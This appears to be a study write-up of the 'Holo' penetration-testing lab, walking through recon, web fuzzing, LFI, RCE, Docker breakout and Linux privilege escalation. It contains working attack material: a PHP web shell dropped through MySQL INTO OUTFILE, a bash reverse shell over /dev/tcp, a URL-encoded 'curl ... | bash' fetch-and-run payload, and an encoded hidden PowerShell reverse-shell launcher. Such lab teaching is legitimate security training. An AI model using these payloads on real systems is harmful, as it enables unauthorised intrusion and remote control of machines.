

For scanning network range

```shell
for i in {1..254} ;do (ping -c 1 10.200.111.$i | grep "bytes from" | awk '{print $4}' | cut -d ":" -f 1 &) ;done
```

For scanning open ports

```shell
for ip in 30 31 35; do echo "10.200.111.$ip:"; for i in {1..15000}; do echo 2>/dev/null > /dev/tcp/10.200.111.$ip/$i && echo "$i open"; done; echo " ";done;
```

for encoding Powershell rev shell

```shell
iconv -f ASCII -t UTF-16LE powershell.txt | base64 | tr -d "\n"
```

for executing  `powershell -w hidden -exec bypass -nop -enc <rev shell>`

#  Intro Generation One

Welcome to Holo!

Holo is an Active Directory and Web  Application attack lab that teaches core web attack vectors and  advanced\obscure Active Directory attacks along with general red teaming methodology and concepts.

In this lab, you will learn and explore the following topics:

- .NET basics
- Web application exploitation
- AV evasion
- Whitelist and container escapes
- Pivoting
- Operating with a C2 (Command and Control) Framework
- Post-Exploitation
- Situational Awareness
- Active Directory attacks

You will learn and exploit the following attacks and misconfigurations:

- Misconfigured sub-domains
- Local file Inclusion
- Remote code execution
- Docker containers
- SUID binaries
- Password resets
- Client-side filters
- AppLocker
- Vulnerable DLLs
- Net-NTLMv2 / SMB

This network simulates an external penetration test on a corporate  network "Hololive" with one intended kill chain. All concepts and  exploits will be taught in a red teaming methodology and mindset with  other methods and techniques taught throughout the network.

## Intro                   

### Overview and Background Section]

[Task 1] Generation 1 - An Overview of Holo

[Task 2] Patching Into the Matrix - Get Connected!

[Task 3] Kill Chain - Well, you're already here

[Task 4] Flag Submission Panel - Submit your flags here

### [Exploitation Guide]

[Task 8] and [Task 11] - Enumerating Files and Subdomains found on L-SRV01

[Task 11] and [Task 12] Exploiting RCE and LFI vulnerabilities found on L-SRV01

[Task 14] Enumerating a Docker container

[Task 15] Enumerating the Docker host from L-SRV02

[Task 16] through [Task 18] Gaining RCE on L-SRV01

[Task 19] L-SRV01 Privilege Escalation

[Task 22] Pivoting into the rest of the 10.200.x.0/24 network

[Task 27] Exploiting password reset tokens on S-SRV01

[Task 28] Bypassing file upload restrictions on S-SRV01

[Task 35] Dumping Credentials on S-SRV01

[Task 36] Passing the Hash to PC-FILESRV01

[Task 37] Bypassing AppLocker on PC-FILESRV01

[Task 42] and [Task 43] DLL Hijacking on PC-FILESRV01

[Task 46] Preform a Remote NTLM Relay attack on PC-FILESRV01 to DC-SRV01

[Task 47] Looting, submitting the final flags from S-SRV02, and Thank You's.

### [Learning Guide]

[Task 8] Punk Rock 101 err Web App 101 - Fuzzing for Files and Subdomains using GoBuster

[Task 9] What the Fuzz? - Fuzzing for Files and Subdomains using WFuzz

[Task 11] What is this? Vulnversity? - Web Exploitation Basics, LFI and RCE

[Task 15] Living of the LANd - Building your own Portable Port Scanner!

[Task 17] Making Thin Lizzy Proud - Docker Enumeration and RCE via MySQL

[Task 22] Digging a tunnel to nowhere - An overview of Pivoting with Chisel and SSHuttle

[Task 23] Command your Foes and Control your Friends - Installing and Setting up Covenant C2

[Task 27] Hide yo' Kids, Hide yo' Wives, Hide yo' Tokens - Password Reset Tokens - [Grindr Case Study](https://hackernoon.com/grindrs-reset-token-vulnerability-a-technical-deep-dive-5u1t3zdl) 

[Task 28] Thanks, I'll let myself in - Exploiting Client Side scripts

[Task 28] Basically a joke itself... - AV Bypass

[Task 35] That's not a cat, that's a dawg - Gaining Persistece and Dumping Credentials with Mimikat ft. Covenant

[Task 36] Good Intentions, Courtesy of Microsoft Part: II - Hash spraying with CrackMapExec

[Task 37] Watson left her locker open - An Intro to AppLocker Bypass

[Task 42] and [Task 43] WE'RE TAKING OVER THIS DLL! - DLL Hijacking 

[Task 44] Never Trust LanMan - Understanding how NetNTLM Sessions are established

[Task 45] No you see me, now you dont - Real World Case Study, How Spooks  pwned a network in 5 minutes using Responder and NTLMRelayX 

[Task 46] Why not just turn it off? - Showcasing a new AD Attack vector; Hijacking Windows' SMB server

# .NET Basics CLR - Commonly Lacking Radiation

An integral part of working with Windows and other operating system  implementations is understanding C# and its underlying technology, .NET. Many Windows applications and utilities are built in C# as it allows  developers to interact with the CLR and Win32 API. We will cover the  infrastructure behind .NET and its use cases within Windows further  below.

.NET uses a run-time environment known as the Common Language Runtime (CLR). We can use any .NET language (C#, PowerShell, etc.) to compile  into the Common Intermediary Language (CIL). NET also interfaces  directly with Win32 and API calls making the optimal solution for  Windows application development and offensive tool development.

From Microsoft, ".NET provides a run-time environment, called the common  language runtime, that runs the code and provides services that make the development process easier. Compilers and tools expose the common  language runtime's functionality and enable you to write code that  benefits from this managed execution environment. Code that you develop  with a language compiler that targets the runtime is called managed  code. Managed code benefits from features such as cross-language  integration, cross-language exception handling, enhanced security,  versioning and deployment support, a simplified model for component  interaction, and debugging and profiling services."

------

.NET consists of two different branches with different purposes, outlined below.

- .NET Framework (Windows only)
- .NET Core (Cross-Compatible)

The main component of .NET is .NET assemblies. .NET assemblies are compiled .exes and .dlls that any .NET language can execute.

The CLR will compile the CIL into native machine code. You can find the flow of code within .NET below.

.NET Language → CIL/MSIL → CLR → machine code

You can also decide to use unmanaged code with .NET; code will be directly  compiled from the language into machine code, skipping the CLR. Examples of unmanaged code are tools like Donut and UnmanagedPowerShell. Find a  visual of data flow within both managed and unmanaged code below.


Within .NET, there also exists the Dynamic Language Runtime (DLR). This  concept is out of scope for this network; however, to learn more about  it, check out this article, https://docs.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/dynamic-language-runtime-overview

Now that we have a basic understanding of .NET and how it can interact with the system from .NET languages, we can begin developing and building  offensive tooling to aid us in our operations.

### Rage Against the Compiler                            

An important part of C# and building offensive tooling is understanding  how to compile your tools and tools without pre-built releases. To work  with C# and building tools, we will again utilize Visual Studio. It is  important to note that Visual Studio is not the only C# compiler, and  there are several other compilers outlined below.


- Roslyn
- GCC
- MinGW
- LLVM
- TCC
- MSBuild


In this task, we will be using Visual Studio as it is the easiest to  comprehend and work with when developing in C#. Visual Studio also  allows us to manage packages and .NET versions without headache when  building from a solution file.


To build and develop C# in Visual Studio, we recommend using the Windows development virtual machine, https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/.


To begin using Visual Studio, you will need a valid Microsoft/Outlook  account to sign in and authenticate to Visual Studio. It is a simple and free process to create an account if you do not already have one. For  more information, check out the Outlook page, https://outlook.live.com/owa/.


We will begin our compiling journey by creating and building a solution file from the code we wrote in the previous task.


To create a solution file for .NET Core, navigate to *Create a new project > Console App (.NET Core)*. If you want to open a preexisting solution file/project, navigate to *Open a project or solution*.


From here, you can configure your project's Name, Location, and Solution  Name. Find a screenshot of the configuration menu below.


Once created, Visual Studio will automatically add a starting C# hello world file and maintain the solution file for building. Find a screenshot of  the file structure below.


You will notice that Visual Studio will break down the Dependencies,  Classes, and Methods in this file tree which can be helpful when  debugging or analyzing code.

From here, we should have a working,  automatically generated C# hello world file that we can use to test our  build process. To build a solution file, navigate to Build > Build  Solution or hold Ctrl+Shift+B. You can also build from applications  themselves rather than project solutions; however, that is out of scope  for this network. Once run, the console tab should open or begin  outputting information. From here, you can monitor the build process and any errors that may occur. If successful, it will output Build: 1  succeeded and the path to the compiled file. Find a screenshot of the  build process below.


You should now have a successfully compiled file that you can run and use on other systems with corresponding .NET versions!

It is important to note that when building other developer's tools, they  will often contain several dependencies and packages. Ensure the machine you are using to build the solution has access to the internet to  retrieve the needed packages.

# Initial Recon

Before we get too overzealous in attacking web servers and hacking  the world, we need to identify our scope and perform some initial recon  to identify assets. Your trusted agent has informed you that the scope  of the engagement is 10.200.x.0/24 and 192.168.100.0/24. To begin the  assessment, you can scan the ranges provided and identify any  public-facing infrastructure to obtain a foothold.

Nmap is a commonly used port scanning tool that is an  industry-standard that is fast, reliable, and comes with NSE scripts.  Nmap also supports CIDR notation, so we can specify a /24 notation to  scan 254 hosts. There are many various arguments and scripts that you  can use along with Nmap; however, we will only be focusing on a few  outlined below.

- `sV` scans for service and version
- `sC` runs a script scan against open ports.
- `-p-` scans all ports 0 - 65535
- `-v` provides verbose output

Syntax: `nmap -sV -sC -p- -v 10.200.x.0/24`

Once you have identified open machines on the network and basic ports open, you can go back over the devices again individually with a more  aggressive scan such as using the `-A` argument.

# Web App Exploitation

After scanning the Network range, you discover a public-facing Web  server. You take to your keyboard as you begin enumerating the Web  Application's attack surface. Your target is L-SRV01 found from initial  reconnaissance.

**Important Note: a large number of users have  reported L-SRV01 is crashing. This is likely due to multiple people  running Gobuster and WFuzz at once. It is highly recommended that you  reduce the thread count while attempting file/directory enumeration on  L-SRV01.**

Virtual Hosts or vhosts are a way of running multiple websites on one single server. They only require an additional header, Host, to tell  the Web Server which vhost the traffic is destined; this is particularly useful when you only have one IP address but can add as many DNS  entries as you would like. You will often see hosted services like  Squarespace or WordPress do this.

We can utilize Gobuster again to identify potential vhosts present on a  web server. The syntax is comparable to fuzzing for directories and  files; however, we will use the `vhosts` mode rather than `dir` this time. `-u` is the only argument that will need a minor adjustment from the previous fuzzing command. `-u` is the base URL that Gobuster will use to discover vhosts, so if you provide `-u` "[https://tryhackme.com](https://tryhackme.com/)" GoBuster will set the host to "[tryhackme.com](http://tryhackme.com/)" and set the host header to 

`Host: LINE1.tryhackme.com`. If you specify "[https://www.tryhackme.com](https://www.tryhackme.com/)", GoBuster will set the host to "[www.tryhackme.com](http://www.tryhackme.com/)" and the host header to `Host: LINE1.www.tryhackme.com`. Be careful that you don't make this mistake when fuzzing.

Syntax: `gobuster vhost -u <URL to fuzz> -w <wordlist>`

We recommend using the Seclists "subdomains-top1million-110000.txt" wordlist for fuzzing vhosts.

Wfuzz also offers vhost fuzzing capability similar to its directory  brute-forcing capability. The syntax is almost identical to the Gobuster syntax; however, you will need to specify the host header with the `FUZZ` parameter, similar to selecting the parameter when directory brute-forcing.

Syntax: `wfuzz -u <URL> -w <wordlist> -H "Host: FUZZ.example.com" --hc <status codes to hide>`

Now that we have some vhosts to work off from fuzzing, we need a way  to access them. If you're in an environment where there is no DNS  server, you can add the IP address followed by the FQDN of the target  hosts to your */etc/hosts* file on Linux or *C:\\Windows\\System32\\Drivers\\etc\\hosts* file if you're on Windows. 

## What the Fuzz

Now that we have a basic idea of the web server's virtual host  infrastructure, we can continue our asset discovery by brute-forcing  directories and files. Your target is still L-SRV01 found from initial  reconnaissance.

HTTP and HTTPS (DNS included) are the single most extensive and most complex set of protocols that make up one entity that we know as the Web. Due  to its complexity, many vulnerabilities are introduced on both the  client-side and server-side.

Asset discovery is the most critical part of discovering the attack  surface on a target Web Server. There's always a chance that any web  page you discover may contain a vulnerability, so you need to be sure  that you don't miss any. Since the web is such a big surface, where do  we start?

We ideally want to discover all the target-owned assets on the Web  Server. This is much easier for the target to do because they can run a `dir` or `ls` in the root of the Web Server and view all the contents of the web  server, but we don't have that luxury (typically, there are a few  protocols like WebDAV that allow us to list the contents).

The most popular method is to send out connections to the remote web server and check the HTTP status codes to determine if a valid file exists, 200 OK if the file  exists, 404 File Not Found if the file does not exist. This technique is knowing as fuzzing or directory brute-forcing.

There are many tools available to help with this method of asset discovery. Below is a short list of commonly used tools.

- Gobuster
- WFuzz
- dirsearch
- dirbuster

The first tool we will be looking at for file discovery is Gobuster;  from the Gobuster Kali page, "Gobuster is a scanner that looks for  existing or hidden web objects. It works by launching a dictionary  attack against a web server and analyzing the response."

Gobuster has multiple options for attack techniques; within this room, we will primarily utilize the `dir` mode. Gobuster will use a few common arguments frequently with Gobuster; these can be found below.

- `-u` or `—url`
- `-w` or `—wordlist`
- `-x` or `—extensions`
- `-k` or `—insecureurl`

Syntax: `gobuster dir -u <URL to fuzz> -w <wordlist to use> -x <extensions to check>`

We recommend using the Seclists "big.txt" wordlist for directory fuzzing.

**Important Note: a large number of users have reported L-SRV01 is crashing. This  is likely due to multiple people running Gobuster and WFuzz at once. It  is highly recommended that you reduce the thread count while attempting  file/directory enumeration on L-SRV01.**

If you notice your fuzzing is going slower than you would like,  Gobuster can add threads to your attack. The parameter for threading is `-t` or `—threads` Gobuster accepts integers between 1 and 99999. By default, Gobuster  utilizes ten threads. As you increase threads, Gobuster can become  further unstable and cause false positives or skip over lines in the  wordlist. Thread count will be dependent on your hardware. We recommend  sticking between 30 and 40 threads.

Syntax: `gobuster -t <threads> dir -u <URL to fuzz> -w <wordlist>`

In the real world, you always want to be mindful of how much traffic  you're sending to the Web Server. You always want to make sure you're  allowing enough bandwidth for actual clients to connect to the server  without any noticeable delay. If you're in a Red Team setting where  stealth is critical, you'll never want to have a high thread count.

The second tool we will be looking at is Wfuzz. From the Wfuzz  GitHub, "Wfuzz is a tool designed for bruteforcing Web Applications, it  can be used for finding resources not linked (directories, servlets,  scripts, etc), bruteforce GET and POST parameters for checking different kind of injections (SQL, XSS, LDAP,etc), bruteforce Forms parameters  (User/Password), Fuzzing,etc.". As you can see, Wfuzz is a comprehensive tool with many capabilities; we will only be looking at a thin layer of what it can do. Compared to the Gobuster syntax, it is almost  identical; find the syntax arguments below.

- `-u` or `—url`
- `-w` or `—wordlist`

The critical distinction in syntax between the two is that Wfuzz requires a `FUZZ` parameter to be present within the URL where you want to substitute in the fuzzing wordlist.

Syntax: `wfuzz -u example.com/FUZZ.php -w <wordlist>`

WFuzz also offers some advanced usage with specific parameters that  we will not be covering in-depth within this room but are important to  note. These can be found below.

- `—hc` Hide status code
- `—hw` Hide word count
- `—hl` Hide line count
- `—hh` Hide character count

These parameters will help find specific things more  accessible, for example, if you're fuzzing for SQLi. You know that an  internal server error will occur if an invalid character is entered. The Database query will fail (which should result in an HTTP Status code 500 [Internal Server Error]); you can use an SQLi wordlist and filter on status codes 200-404.

#### LEEROY JENKINS!

For the following sections on web application exploitation, we have  provided a development instance of a test server to practice attacks  before moving over to the actual production web server.

To set up the test environment, you will need to install apache 2, PHP, and the environment files. Follow the steps outlined below.

1. `apt install apache2 php`
2. edit configuration files to use port 8080
3. `systemctl start apache2`
4. `wget  https://github.com/Sq00ky/holo-bash-portscanner/raw/main/holo-playground.zip -O /var/www/holo.zip && unzip /var/www/holo.zip`

##### What is this? Vulnversity?

Now that you understand the file structure and infrastructure behind  the webserver, you can begin attacking it. Based on technical errors and misconfigurations found on the webserver, we can assume that the  developer is not highly experienced. Use the information that you have  already identified from asset discovery to move through the attack  methodically.

From OWASP, "Local file inclusion (also known as LFI) is the process  of including files, that are already locally present on the server,  through the exploiting of vulnerable inclusion procedures implemented in the application." LFI can be trivial to identify, typically found from  parameters, commonly used when downloading files or referencing images.  Find an example below from the test environment.

Example: `http://127.0.0.1/img.php?file=CatPics.jpg`

To exploit this vulnerability, we need to utilize a technique known  as directory traversal. From Portswigger, "Directory traversal (also  known as file path traversal) is a web security vulnerability that  allows an attacker to read arbitrary files on the server that is running an application." This vulnerability is exploited by using a combination of `../` in sequence to go back to the webserver's  root directory. From here, you can read any files that the webserver has access to. A common way of testing PoC for LFI is by reading `/etc/passwd`. Find an example below from the test environment.

Example: `http://127.0.0.1/img.php?file=../../../../../../../../etc/passwd`

In the above example, the `?file` parameter is the parameter that we exploit to gain LFI.

That is the entire concept of LFI. For the most part, LFI is used to  chain to other exploits and provide further access like RCE; however,  LFI can also give you some helpful insight and enumerate the target  system depending on the access level webserver. An example of using LFI  to read files is finding an interesting file while fuzzing; however, you get a 403 error. You can use LFI to read the file and bypass the error  code.

## Remote Control Empanadas

Now that you have access to the administrator subdomain, you can fuzz for remote code execution and attempt to identify a specific parameter  that you can exploit to gain arbitrary access to the machine.

Remote code execution, also known as arbitrary code execution, allows you to execute commands or code on a remote system. RCE can often  exploit this by controlling a parameter utilized by a web server.

One method of attempting to identify RCE is by fuzzing for a  vulnerable parameter using Wfuzz. Similar to how we used Wfuzz for asset discovery. The syntax is the same as previous commands; however, this  time we will replace the `FUZZ` command at the end along with a `?` so that the complete `FUZZ` parameter is `?FUZZ=ls+-la` Find an example below from the test environment.

Syntax: `wfuzz -u <http://example.com/?FUZZ=ls+-la> -w <wordlist> --hw 2`

We suggest using the Seclists "big.txt" for fuzzing RCE parameters.

Now that we know we can control the parameter, we can attempt to gain RCE on the box. Find an example below from the test environment.

Command used: `curl -vvv http://localhost:8080/test.php?cmd=ls+-la && echo ""`

Rather than fuzzing all the pages that we find to identify RCE, we can utilize code analysis to look at the code running on a page and infer whether  or not the code may be vulnerable. Find an example below of how code can run a command and is vulnerable to an attacker controlling the  parameter.

```php
<?php 
$id = $_GET["cmd"];
if ($_GET["cmd"] == NULL){
echo "Hello " . exec("whoami") . "!";
} else {
echo "Hello " . exec($id);
}
?>
```

To identify RCE, you can decide whether you want to fuzz parameters of  files or you want to review the source code of a file. Your approach may also differ depending on the scenario you are in and what resources or  footholds you have at your disposal.

Once you have RCE on the  system, you can use a reverse shell such as netcat to gain a shell on  the box. Refer to the following cheat sheet for help with reverse  shells. http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Post Exploitation

Now that we have a shell on the box, we want to stabilize our shell.  For the most part, stabilizing shells is straightforward by using other  utilities like python to help; however, some steps can take longer or  change depending on the shell you use. The below instructions will be  for bash and ZSH; any other shells or operating systems, you will need  to do your research on stabilizing shells within their environment.

Instructions found throughout this room are inspired by this fantastic blog post, https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/. All credit for the techniques shown goes to ropnop.

There are several ways to stabilize a shell; we will be focusing on  using python to create a pseudo-terminal and modifying stty options. The steps are the same for all target machines, but they may differ  depending on the shell or operating system used on your attacking  machine.

To begin, we will create a pseudo-terminal using python. The command can be found below.

Syntax: `python -c 'import pty; pty.spawn("/bin/bash")'`

Once we have a pseudo shell, we can pause the terminal and modify  stty options to optimize the terminal. Follow the steps below exactly  for bash shells.

1. `stty raw -echo`

2. `fg`

**Note****:** If you're using ZSH, you **must** combine `stty raw -echo;fg ` onto one line, or else your shell will break 

At this point, you will get your pseudo-terminal back, but you may notice  that whatever you type does not show up. For the next step, you will  need to type blindly.

3. `reset`

4. `export SHELL=BASH`

For the next two steps, you will need to use the information you got from step 1. 

5. `export SHELL=BASH`

6. `export TERM=<TERMINAL>`

7. `stty rows <num> columns <cols>`

### Situational Awareness Docker? I hardly even know her!

Now that we have gained a shell onto the webserver, we need to  perform some situational awareness to figure out where we are. We know  from looking through some files when we exploited LFI that this may be a container. We can run some further enumeration and information  gathering to identify whether that is true or not and anyway  misconfigurations that might allow us to escape the container.

From the Docker documentation, "A container is a standard unit of  software that packages up code and all its dependencies, so the  application runs quickly and reliably from one computing environment to  another. A Docker container image is a lightweight, standalone,  executable package of software that includes everything needed to run an application: code, runtime, system tools, system libraries, and  settings."


Containers have networking capabilities and their own file storage. They achieve this by using three components of the Linux kernel:

- Namespaces
- Cgroups
- OverlayFS

But we're only going to be interested in namespaces here; after  all, they lay at the heart of it. Namespaces essentially segregate  system resources such as processes, files, and memory away from other  namespaces.

Every process running on Linux will be assigned a PID and a namespace.

Namespaces are how containerization is achieved! Processes can only "see" the  process that is in the same namespace - no conflicts in theory. Take  Docker; for example, every new container will be running as a new  namespace, although the container may be running multiple applications  (and, in turn, processes).

Let's prove the concept of  containerization by comparing the number of processes there are in a  Docker container that is running a web server versus the host operating  system at the time.

We can look for various indicators that  have been placed into a container. Containers, due to their isolated  nature, will often have very few processes running in comparison to  something such as a virtual machine. We can simply use `ps aux` to print the running processes. Note in the screenshot below that there are very few processes running?

Command used: `ps aux` 


Containers allow environment variables to be provided from the host operating system by the use of a `.dockerenv` file. This file is located in the "/" directory and would exist on a  container - even if no environment variables were provided.

Command used: `cd / && ls -lah`


Cgroups are used by containerization software such as LXC or Docker. Let's look for them by navigating to `/proc/1` and then catting the "cgroup" file... It is worth mentioning that the  "cgroups" file contains paths including the word "docker".


###  Situational Awareness Living off the LANd                            

We now know that we are in a docker container. Since we know that we  are in a docker container, we can continue with situation awareness and  enumeration to determine what we can do and what other paths we can take to continue attacking this server. A critical part of situational  awareness is identifying network and host information. This can be done  via port scanning and network tooling.

In this task, we will be covering using what we have at our disposal  in a limited environment to gain information and awareness of the  environment. We will showcase both bash and python port scanners that  you can utilize as both are common to have inside of a system or  container and other tricks that can be used, such as Netcat and  statically compiled binaries.

The first method of port scanning we will be covering is using bash. In bash, we can utilize `/dev/tcp/ipaddr/port`; this will act as a built-in scanner to gather information on the container ports. This utility is broken down below.

- `/dev/` contains all hardware devices, such as NIC, HDD, SSD, RAM
- `/dev/tcp/` pseudo-device of your ethernet/wireless card opens a socket when data is directed either in or out.

For more information about this, check out the Linux Documentation Project. https://tldp.org/LDP/abs/html/devref1.html

We can use this to our advantage to scan internal ports by piping a  list of ports into it. Find an example of a full bash port scanner  below.

```
#!/bin/bash
ports=(21 22 53 80 443 3306 8443 8080)
for port in ${ports[@]}; do
timeout 1 bash -c "echo \"Port Scan Test\" > /dev/tcp/1.1.1.1/$port && echo $port is open || /dev/null" 
done
```

The second method of port scanning we will cover is using python. To scan ports with python, we will need to use the `sockets` library to open connections and enable network connectivity. The script itself is as simple as opening connections to sequencing ports in a  loop. Find an example of the full python port scanner below.

```
#!/usr/bin/python3
import socket
host = "1.1.1.1"
portList = [21,22,53,80,443,3306,8443,8080]
for port in portList:
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 try:
  s.connect((host,port))
  print("Port ", port, " is open")
 except:
  print("Port ", port, " is closed")
```

The mainline of code doing all the work is `socket.AF_INET, socket.SOCK_STREAM` this will be a precursor to opening a connection to the specified host and port.

The third method we will look at is unique and uses Netcat to connect to a  range of ports. Netcat is a reasonably common utility on all Linux boxes, so it is safe to assume that we will always have it at our disposal. Find example syntax below.

Syntax: `nc -zv 192.168.100.1 1-65535`

Along with these living off-the-land scripts, we can also utilize statically  compiled binaries. A statically compiled binary is similar to any other  binary with all libraries and dependencies included in the binary. This  makes it so that you can run the binary on any system with the same  architecture (x86, x64, ARM, etc). There are several places that you can download these binaries and compile them yourselves. Check out this  GitHub for a list of stable binaries. https://github.com/andrew-d/static-binaries.

### Situational Awareness Dorkus Storkus - Protector of the Database                            

Continuing with  situational awareness, we can begin looking for any interesting  configuration files or other pieces of information that we can gather  without actively exploiting the box. We can also attempt to loot  services on the device, such as MySQL.

Since we know the server we are attacking is a web server, we can  assume it runs some SQL or database on the backend. Often, these  databases may be secure from someone accessing them from the outside,  but when on the server, they are often very insecure and can openly read the configuration files.

When we get onto a server running MySQL, we can begin our situational awareness and information  looting/exfiltration by reading the `db_connect.php` file. Web servers require this file to connect PHP and SQL. This file is often not readable externally, but you can easily read it and obtain information from it if you have access to an  insecure internal server. This file will typically be present at the  root of the web page, such as `/var/www`. Find an example of this configuration file below.

```
<?php
define('DB_SRV', '127.0.0.1');
define('DB_PASSWD', 'password');
define('DB_USER', 'username');
define('DB_NAME', 'database');
$connection = mysqli_connect(DB_SRV, DB_USER, DB_PASSWD, DB_NAME);
?>
```

As you can see, we can get much important information from this file:  server address, password, username, database name. This can help us to  then access and loot the database. It is essential to understand the  scope and what information you can and cant exfiltrate and loot. Before  exfiltration, you should have clear communication and plans with your  target. Hololive has permitted you to exfiltrate names and passwords  within the "DashboardDB" database in this engagement.

To access  the database, you will need to utilize a binary of the database access  tool used. The database will often be MySQL; however, this can change  from server to server, and location may also vary. To use MySQL, you  will only need to specify the username using `-u`. You will also need to specify the `-p` parameter; however, it does not take an argument.

When directly accessing a database using MySQL, it will put you into a local database hosted on the machine. You can also use MySQL to access remote databases using the `-h` parameter. Find an example of usage below.

Syntax: `mysql -u <username> -p -h 127.0.0.1`

If successful, we should now have access to a remote database. From here,  we can use SQL syntax to navigate and utilize the database. We will be  covering a few essential SQL commands that you can use to understand how to navigate a SQL database quickly. For more information, check out the MySQL documentation. https://dev.mysql.com/doc/. 

- `show databases;` provides a list of available databases.
- `use <database>;` navigates to the provided database.
- `show tables;` provides a list of available tables within the database.
- `show columns from <table>;` outputs columns of the provided table.
- `select * from <table>;` outputs all contents of the provided table.

# Docker Breakout Making Thin Lizzy Proud                            

Now that you have  identified that you are in a container and have performed all the  information gathering and situational awareness you can, you can escape  the container by exploiting the remote database.

There are several ways to escape a container, all typically stemming  from misconfigurations of the container from services or access  controls.

For more information about container best practices and docker security, check out this OWASP cheat-sheet, https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html.

A method that's not quite as common is Exploitation. Exploits to escape  Containers aren't as common and typically rely on abusing a process  running on the host machine. Exploits usually require some level of user interaction, for example, [CVE-2019-14271](https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/). It can also be beneficial to use a container enumeration script such as DEEPCE, https://github.com/stealthcopter/deepce.

Since we gained access to a remote database, we can utilize it to gain command execution and escape the container from MySQL.

The basic methodology for exploiting MySQL can be found below.

- Access the remote database using administrator credentials

- Create a new table in the main database

- Inject PHP code to gain command execution

  Example code: `<?php $cmd=$_GET["cmd"];system($cmd);?>`

- Drop table contents onto a file the user can access

- Execute and obtain RCE on the host.

Looking at the above exploit may seem complicated, but we can break it down further and provide more context to make it simpler.

We can use a single command to inject our PHP code into a table and save the table into a file on the remote system.  We are writing any code that we want onto the remote system from this  command, which we can then execute, giving use code execution. Find the  command used below.

Command used: `select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`

Now that we have a file that we control dropped on the system, we can curl the address and obtain RCE from the dropped file. Find example  usage below.

Example usage: `curl 127.0.0.1:8080/shell.php?cmd=whoami`

# Docker Breakout Going%20out%20with%20a%20SHEBANG%21                            

Now that you have escaped the container and have RCE on the host, you need to create a reverse shell and obtain a way to gain a stable shell onto the box.

There are several ways to obtain a reverse shell on a box once you have RCE. Outlined below are a few of the most common methods used.

    netcat
    bash
    python
    perl

For more information about various payloads and reverse shells, you can use check out these two resources. https://github.com/swisskyrepo/PayloadsAllTheThings. http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.

In this task, we will be covering how to use a basic bash reverse shell along with URL encoding to drop a script directly into bash. Using URL encoding to our advantage, we can ease much pain when executing a payload as often special characters such as &, ', !, ;, ? will cause serious issues.

To begin, we will create a simple payload by placing the below code into a .sh file.

```
#!/bin/bash
bash -i >& /dev/tcp/tun0ip/53 0>&1
```

The first line will declare that we are using the bash scripting language. The second line is the payload itself. For more information about this payload, check out this explain shell, https://explainshell.com/explain?cmd=bash+-i+>%26+%2Fdev%2Ftcp%2F127.0.0.1%2F53+0>%261.

Now that you have the payload ready to go, you can start up a local web server on your attacking machine using either http.server or updog or php. You can find example usage for all three below.

    python3 -m http.server 80
    updog
    php -S 0.0.0.0:80

Once you have a server started hosting the file, we can compile a command to execute the file. Find the command below.

Unencoded command:` curl http://10.x.x.x:80/shellscript.sh|bash &`

As we have already mentioned, special characters can cause issues within URLs. To combat this, we can utilize URL encoding on any special characters. Find the encoded command below.

Encoded command: curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26

The above command is entirely ready to go. You will only need to change the IP address and the file name within the command; this does not require you to change any of the URL encoding present.

You can now start a listener using Netcat or Metasploit to catch your reverse shell once executed. Find commands below to start listeners.

    nc -lvnp 53
    use exploit/multi/handler

Now that you have the full payload and execution command ready, you can use it and the RCE to gain a shell onto the box. Find the full command below.

Command used: `curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26'`

# Privilege Escalation Call me Mario, because I got all the bits                            

**Note:** Please be mindful of other users trying to proceed in the network. Please do not stop the Docker container from running.  It will prevent users from proceeding throughout the network. Also,  please clean up after yourself. If you transfer a docker container image to the VM, remember to remove it after you finish elevating privileges.

Now that we have a shell on L-SRV01 and escaped the container, we need to  perform local privilege escalation to gain root on the box.

Local privilege escalation is when you take your average level user  access and exploit misconfigurations and applications to gain privileged level access. This is typically done by exploiting a specific  application or service that was misconfigured on the device.

Several resources can help you through privilege escalation on Linux. Some of these resources are outlined below for you to use.

- https://book.hacktricks.xyz/linux-unix/privilege-escalation
- https://github.com/swisskyrepo/PayloadsAllTheThings/
- https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

In this task, we will be covering one specific privilege escalation  technique and a script that we can use to speed along the process of  finding misconfigurations we can exploit.

We will utilize a script called Linpeas to run a thorough check of  potential exploits to begin our privilege escalation attempts. https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.

To use Linpeas, we need to download the script from the repository  above on our attacking machine. Then we can utilize a web hosting  service such as http.server, updog, or php to host the file onto the  target machine. Linpeas does not require any arguments or parameters to  run; you only need to run it as a standard binary.

Syntax: `./linpeas.sh`

Linpeas may take around 5-10 minutes to complete. Once complete, you  would need to parse through the output and look for any potentially  valuable information.

The specific exploit that we will be looking at is abusing the SUID bit set on binaries. From [linux.com](http://linux.com/) "SUID (Set owner User ID upon execution) is a special type of file  permissions given to a file. Normally in Linux/Unix when a program runs, it inherits access permissions from the logged-in user. SUID is defined as giving temporary permissions to a user to run a program/file with  the permissions of the file owner rather than the user who runs it."  This means that if the program or file is running as root and we have  access to it, we can abuse it to grant us root-level access. Below you  can find what the SUID bit looks like, along with a table of other bits  that can be set.


| **Permission** | **On Files**                                                 | **On Directories**                                        |
